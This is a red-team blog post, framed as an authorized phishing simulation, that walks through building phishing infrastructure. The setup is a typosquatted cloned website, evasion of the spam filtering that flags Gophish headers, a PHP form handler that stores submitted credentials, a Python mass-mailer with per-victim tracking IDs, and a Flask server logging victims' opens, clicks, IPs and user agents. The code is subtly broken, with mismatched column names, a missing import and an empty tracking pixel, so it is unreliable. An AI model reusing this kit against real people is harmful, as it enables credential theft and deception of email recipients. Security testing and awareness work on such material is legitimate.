

Recently, I was assigned to carry out a phishing simulation for a client. Of course, the most efficient approach was to leverage an existing framework—such as Gophish—for the setup.


### The Problem with GoPhish

Using gophish, the entire phishing campaign would be easily executed with a click of a button. Makes life simple, but the problem is that mails sent from GoPhish land directly in the SPAM folder. This was a huge problem since I also knew that my targets were using Office 365 with Windows Defender for Outlook service. Which easily detects spam / phishing mails.


Mail sent with Gophish append the following headers:

- X-Gophish-Contact
- X-Gophish-Signature

This is a major problem for us red teamers since security controls can easily detect a mail with such headers as malicious. 


Now there are two ways to proceed:

1. Rebuild Gophish from source code and add in custom headers, as detailed in this [Guide.](https://www.sprocketsecurity.com/blog/never-had-a-bad-day-phishing-how-to-set-up-gophish-to-evade-security-controls)

2. Create your own custom Phishing Infrastructure.


Of course the first method is not as interesting and fun as the second, Lets make our own phishing infra.


**For privacy reasons, Lets refer to my client against which this phishing campaign was executed as Hackme LTD.**


#### **Prerequisites**

- A [Typosquatting](https://en.wikipedia.org/wiki/Typosquatting) domain.
  
  - For example, if the original domain is hackme.com, we would obtain hackmee.com.

- Email accounts to send the emails from.

- A clone of the original website using GoClone.

- A Droplet or server to track the emails.


##### 1. Setting up a TypoSquat Website

Use goclone to clone the original website.


For this phishing campaign to work properly, We need the victim to submit they're information somewhere. You can acheive this by implementing your own custom login / data submission forms, and use the following _example_ php to capture the data.

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $file = 'post_data.txt';
    $postData = json_encode($_POST); 
    file_put_contents($file, $postData . PHP_EOL, FILE_APPEND);
    
    echo "Data has been saved successfully.";
} else {
    echo "No POST data received.";
}
?>
```

This would save the post-ed data to a local file on the webserver. However, with just few modifications you can modify it to email the data or any other way to save it. 


At this point, Step 1 is complete, A typosquatted website that captures the data submitted on the website and saves it. Make sure you add SSL Certificates to improve legitimacy. 


##### 2. Mail Tracking System

Since gophish logs email clicks, We have to implement this feature. This data is valuable to us to see which users clicked the phishing email, And which user clicked the links in the email.


Gophish implements this feature by using a tracking image pixel. When the email is loaded in the mail client, a request is sent back to the Gophish server to load the image, indicating that the email has been opened.


Lets write our mail tracking system, that would, Send the mails, Track if they are opened / read and also track if the buttons in the mail were clicked.


Lets make a csv containing our victims email addresses, These would be the employees from Hackme LTD.

eg:

```csv
id,first_name,last_name,email
52SLD,Jhon,Doe,jhon.doe@hackme.ltd
```

##### Sending the Mails

Using the following code, We can send email for each user in the csv with their own unique identifier that we can use to track them.

```python
def send_tracked_email(recipient, rid, body=None):
    if body is None:
        body = f"""
        Click here: <a href="https://hackme.ltd/?rid={rid}">https://hackme.ltd/</a>
        """
    
    # Generate unique tracking IDs
    open_tracker_id = str(uuid.uuid4())
    click_tracker_id = str(uuid.uuid4())

    # Store tracking IDs in database
    c.execute("INSERT INTO tracking_data (id, type, rid) VALUES (?, ?, ?)",
              (open_tracker_id, 'open', rid))
    c.execute("INSERT INTO tracking_data (id, type, rid) VALUES (?, ?, ?)",
              (click_tracker_id, 'click', rid))
    conn.commit()

    # Create email content
    subject = "Hello, World!"
    tracked_link = f"{TRACKING_DOMAIN}/track_click/{click_tracker_id}"
    tracking_pixel = f''

    html_body = f"""
    <html>
        <body>
            {body}
            {tracking_pixel}
        </body>
    </html>
    """

    # Create email message
    msg = MIMEMultipart()
    msg['From'] = SENDER_EMAIL
    msg['To'] = recipient
    msg['Subject'] = subject
    msg.attach(MIMEText(html_body, 'html'))

    # Send email
    try:
        with smtplib.SMTP_SSL(SMTP_SERVER, SMTP_PORT, context=ssl.create_default_context()) as server:
            server.login(SENDER_EMAIL, SENDER_PASSWORD)
            server.sendmail(SENDER_EMAIL, recipient, msg.as_string())
            print(f"Email sent to {recipient} with RID {rid}")
    except Exception as e:
        print(f"Error sending to {recipient}: {str(e)}")
```

This function, `send_tracked_email`, sends an email with tracking for opens and clicks:

**Logic**:

- If no `body` is provided, a default link with `rid` is used.

- Generates unique `open_tracker_id` and `click_tracker_id` for tracking.

- Inserts tracking data (open/click events) into the local database.

- Creates an HTML email with the provided or default body, including tracking pixel (for open) and a tracked link (for click).

- Sends the email using SMTP with SSL, logging into the server with credentials.

In this case, Our "TRACKING_DOMAIN" would be the callback url where the following flask application will be hosted.

##### Flask Tracking Server

```python
from flask import Flask, redirect, Response
import sqlite3

app = Flask(__name__)

conn = sqlite3.connect('tracking.db', check_same_thread=False)
c = conn.cursor()

# Drop existing table if it exists
c.execute("DROP TABLE IF EXISTS tracking_data")
conn.commit()

# Create new table with correct schema
c.execute('''CREATE TABLE IF NOT EXISTS tracking_data
             (id TEXT PRIMARY KEY,
              type TEXT,
              rid TEXT,
              timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
              user_agent TEXT,
              ip_address TEXT)''')
conn.commit()
@app.route('/track_open/<tracker_id>')
def track_open(tracker_id):
    # Log the open event with client info
    user_agent = request.headers.get('User-Agent')
    ip_address = request.remote_addr
    
    c.execute('''INSERT INTO tracking_data 
                 (id, event_type, user_agent, ip_address) 
                 VALUES (?, ?, ?, ?)''',
              (tracker_id, 'open', user_agent, ip_address))
    conn.commit()
    
    # Return transparent 1x1 pixel
    return Response(
        b'\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00\x21\xf9\x04\x01\x00\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x44\x01\x00\x3b',
        mimetype='image/gif'
    )

@app.route('/track_click/<tracker_id>')
def track_click(tracker_id):
    # Log the click event
    user_agent = request.headers.get('User-Agent')
    ip_address = request.remote_addr
    
    c.execute('''INSERT INTO tracking_data 
                 (id, event_type, user_agent, ip_address) 
                 VALUES (?, ?, ?, ?)''',
              (tracker_id, 'click', user_agent, ip_address))
    conn.commit()
    return redirect("https://google.com") # redirect wherever

```

**Routes**:

- **`/track_open/<tracker_id>`**: This route tracks when an email is opened.
  
  - It logs the `tracker_id`, event type (`open`), user-agent, and IP address into the database.
  
  - It returns a transparent 1x1 GIF image to the client 

- **`/track_click/<tracker_id>`**: This route tracks when a link is clicked.
  
  - It logs the `tracker_id`, event type (`click`), user-agent, and IP address into the database.
  
  - After logging the click, it redirects the user to a pre-configured URL (in this case, `https://google.com`). This will be our typosquatted url, Where the user would enter they're credentials.


The entire system would look like the following:


To view the results without having to access the local sqlite database, lets add another endpoint in the flask app.

```python
@app.route('/opens')
def view_opens():
    ip = request.args.get('ip')
    rid = request.args.get('rid')
    
    query = '''
        SELECT tracker_id, rid, ip_address, timestamp
        FROM tracking_data
        WHERE event_type = 'open'
    '''
    conditions = []
    params = []
    if ip:
        conditions.append("ip_address = ?")
        params.append(ip)
    if rid:
        conditions.append("rid = ?")
        params.append(rid)
    if conditions:
        query += " AND " + " AND ".join(conditions)
    
    c.execute(query, params)
    opens = c.fetchall()
    
    output = []
    for open_event in opens:
        tracker_id, rid, ip_addr, timestamp = open_event
        email = rid_to_email.get(rid, 'Email not found')
        output.append(f"Email with tracker ID {tracker_id} (RID: {rid} ({email})) was opened by IP {ip_addr} at {timestamp}")
    
    return f"<pre>{'\n'.join(output)}</pre>"

```


And this is how the end result would look like, visting the flask app on /opens will show us the results.





***In conclusion, while building a custom phishing infrastructure from scratch is an interesting and educational exercise, it’s important to note that it's not as efficient or reliable as using a framework like GoPhish, which has been developed by a team of experts specifically for this purpose. GoPhish provides a streamlined, well-tested solution for phishing simulations.***

However, understanding the underlying processes and knowing how each step works is crucial for any red teamer. Gaining this insight not only enhances your ability to adapt and customize your approach but also deepens your understanding of the attack lifecycle, making you a more versatile and effective operator in the field.


